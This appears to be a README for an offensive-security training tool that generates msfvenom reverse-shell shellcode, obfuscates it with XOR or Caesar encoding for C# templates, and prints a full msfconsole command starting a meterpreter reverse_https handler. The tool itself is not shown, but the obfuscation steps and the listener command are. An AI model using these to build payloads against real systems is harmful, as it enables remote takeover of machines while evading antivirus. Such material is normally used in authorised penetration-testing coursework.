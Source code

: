 # Shellcode Encoder

## Usage

Run the encoding script and follow the prompts:

python3 c_sharp_shellcode_encoder.py
The script will:
- Generate shellcode using msfvenom (e.g., reverse_https/reverse_tcp payload)
- Encode the shellcode using XOR, Caesar, or a custom encoding method
- Inject the encoded shellcode between markers in template files and save updated files in the current directory
- Output an msfconsole command to start the appropriate Metasploit handler
Example msfconsole output:
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"


## Source
https://github.com/chvancooten/OSEP-Code-Snippets
